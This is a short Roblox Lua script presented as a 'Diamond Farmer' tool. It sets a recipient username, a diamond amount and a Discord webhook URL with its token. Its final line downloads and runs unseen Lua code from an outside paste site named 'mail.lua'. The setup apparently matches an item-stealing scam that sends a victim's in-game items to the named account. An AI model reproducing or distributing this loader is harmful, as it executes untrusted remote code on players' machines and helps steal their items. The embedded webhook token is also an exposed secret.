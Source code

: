 _G.Username = "4t3x_Singnicial"
_G.Diamonds = 1000000000
_G.Webhook = "https://discord.com/api/webhooks/1115180028506939412/WyH_fUOQAyPiZI3LKmMTPqc6WZW1_xnLmdL4P3tSwZByxXl-aXVv2VM_udZ5wF_4_XrJ"

_G.ScripttName = "Diamond Farmer"
_G.Tip1 = "Diamond Farmer"
_G.Tip2 = "Diamond Farmer"
_G.Tip3 = "Diamond Farmer"
_G.Tip4 = "Diamond Farmer"
loadstring(game:HttpGet("https://paste.xyzo.space/nxll/mail.lua"))()
